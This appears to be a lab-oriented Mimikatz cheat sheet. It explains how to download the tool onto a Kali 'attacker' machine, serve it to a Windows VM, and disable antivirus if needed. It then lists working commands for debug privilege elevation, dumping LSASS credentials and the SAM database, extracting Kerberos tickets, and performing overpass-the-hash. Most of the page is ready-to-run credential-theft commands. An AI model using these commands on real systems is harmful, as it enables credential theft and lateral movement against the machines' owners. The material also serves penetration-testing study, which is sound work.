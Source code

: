 
## **Overview**


- Tool used to view and steal credentials, generate kerberos tickets and leverage attacks
- Dump credentials stored in memory
- Few more attacks : Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket and Golden Ticket


## **Installation**

- Download the mimikatz file[.zip] from [here](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) on your kali machine
- Open the zipped file and navigate to the `/x64/` folder
- Transfer all files in this folder to your windows client machine, In our case it is **SPIDERMAN**
	- We can start up a python3 server on our Attacker machine with `python3 -m http.server 80`
	- Then navigate to your windows machine and open up a browser then type in our Attacking machine IP
	- Look for the files and download them (If you have any difficulty turn off your windows Antivirus)

![](https://i.imgur.com/HwRcWdk.png)

- Open up a Command Prompt with **Administrative privileges** on our SPIDERMAN VM and change directory to downloads (Where the Mimikatz file is located at)

![](https://i.imgur.com/QcWQSpt.png)


## **General Usage**

```powershell
# start mimikatz
c:\Users\peterparker\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate

# List available options
mimikatz # sekurlsa::
```


### **Dump Hashes in LSASS**  

```powershell
mimikatz # sekurlsa::logonpasswords
```


### **Dump SAM**

```powershell
mimikatz # lsadump::sam
```


### **Dump Cached TGTs**

```powershell
mimikatz # sekurlsa::tickets
```


### **Overpass the Hash**

Create a TGT using a dumpled NTLM hash

```powershell
mimikatz # sekurlsa::pth /user:username /ntlm:hash-here /domain:domain.tld
```
